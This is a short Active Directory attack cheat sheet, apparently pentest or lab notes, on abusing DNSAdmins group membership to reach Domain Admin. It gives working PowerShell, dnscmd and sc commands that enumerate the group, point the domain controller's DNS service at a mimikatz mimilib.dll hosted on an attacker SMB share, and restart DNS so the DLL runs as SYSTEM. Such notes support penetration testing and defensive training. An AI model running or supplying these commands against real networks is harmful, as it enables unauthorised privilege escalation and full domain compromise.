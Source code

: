 # DNS Admins

## General

- Members of the DNS Admins group can load arbitrary DLL's with the privileges of dns.exe (SYSTEM)
- If the DC serves as DNS server, we can escalate to DA
- But: need to be able to restart the DNS on the DC

## Exploitation

- Can use mimilib.dll from mimikatz
- Modify kdns.c or use boiler plate from [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- mimilib.dll logs all DNS queries to C:\Windows\System32\kiwidns.log by default
- Host DLL on SMB server with anonymous access
- Be careful, else DNS might fail -> noisy!

```powershell
# Enumerate members of DNSAdmins group
# Using PowerView 3.0
Get-DomainGroupMember "DNSAdmins"

# Using AD Module
Get-ADGroupMember -Identity "DNSAdmins"

# With privileges of DNSAdmins member, e.g. through PTH, configure DLL
# Using dnscmd.exe (needs RSAT DNS)
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.72.100\dll\mimilib.dll

# Using DNSServer module (needds RSAT DNS)
$dnsettings = Get-DNSServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.72.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose

# Restart DNS service
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```
